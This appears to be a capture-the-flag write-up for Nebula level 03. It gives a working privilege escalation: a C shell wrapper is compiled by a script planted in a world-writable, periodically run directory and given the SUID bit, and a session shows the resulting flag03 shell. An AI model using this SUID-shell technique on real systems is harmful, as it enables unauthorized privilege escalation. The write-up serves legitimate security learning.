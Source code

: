 We reuse the `shell.c` file from level 01.

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

Next, we add the following script to the `writable.d` directory:

```bash
gcc -o /home/flag03/shell /tmp/shell.c
chmod 4777 /home/flag03/shell
```

The script compiles the `shell.c` file into a `shell` binary and sets the SUID
bit.

After a while, we get a `shell` binary in `/home/flag03`.

```shell
level03@nebula:~$ ls -lah /home/flag03
total 14K
drwxr-x--- 1 flag03 level03   80 2017-12-26 08:15 .
drwxr-xr-x 1 root   root     280 2012-08-27 07:18 ..
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
-rwsrwxrwx 1 flag03 flag03  7.2K 2017-12-26 08:15 shell
drwxrwxrwx 1 flag03 flag03    40 2017-12-26 08:15 writable.d
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh
```

Running it gets us a shell as the flag03 user.

```shell
level03@nebula:~$ /home/flag03/shell
flag03@nebula:~$ whoami
flag03
flag03@nebula:~$ id
uid=996(flag03) gid=1004(level03) groups=996(flag03),1004(level03)
flag03@nebula:~$ getflag
You have successfully executed getflag on a target account
```
